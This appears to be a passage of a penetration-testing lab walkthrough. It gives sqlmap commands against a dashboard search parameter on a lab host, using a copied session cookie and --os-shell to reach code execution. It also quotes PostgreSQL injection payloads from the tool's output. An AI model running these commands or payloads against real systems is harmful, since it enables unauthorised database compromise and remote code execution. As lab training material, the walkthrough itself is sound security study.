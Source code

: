 The page takes in a GET request with the parameter search. This URL is
supplied to sqlmap, in order to test for SQL injection vulnerabilities.
The website uses cookies, which can be specified using --cookie.

Right-click the page and select Inspect Element. Click the Storage tab
and copy the PHP Session ID.

![](media/image84.png){width="5.759027777777778in" height="1.4625in"}

![](media/image85.png){width="3.1145833333333335in" height="0.625in"}

WE see the PHPSESSID value is :"**gub9n3ugpgc5obsre8jkv8tq3m**"

We can construct the Sqlmap query as follows:

**sqlmap -u 'http://10.10.10.46/dashboard.php?search=a’
--cookie="**PHPSESSID=**gub9n3ugpgc5obsre8jkv8tq3m"**

Sqlmap found the page to be vulnerable to multiple injections, and
identified the backend DBMS to be PostgreSQL.

***Getting code execution in postgres is trivial using the --os-shell
command.***
``` shell
  -----------------------------------------------------------------------------------------------------------------------
  **sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m" --os-shell **
  
  ....
  
  \[\*\] starting @ 15:32:32 /2020-07-03/
  
  ....
  
  ....
  
  Parameter: search (GET)
  
  ....
  
  Title: PostgreSQL > 8.1 stacked queries (comment)
  
  Payload: search=a';SELECT PG\_SLEEP(5)--
  
  Type: time-based blind
  
  Title: PostgreSQL > 8.1 AND time-based blind
  
  Payload: search=a' AND 8079=(SELECT 8079 FROM PG\_SLEEP(5))-- dEyh
  
  ....
  
  ....
  
  \[15:32:34\] \[INFO\] going to use 'COPY ... FROM PROGRAM ...' command execution
```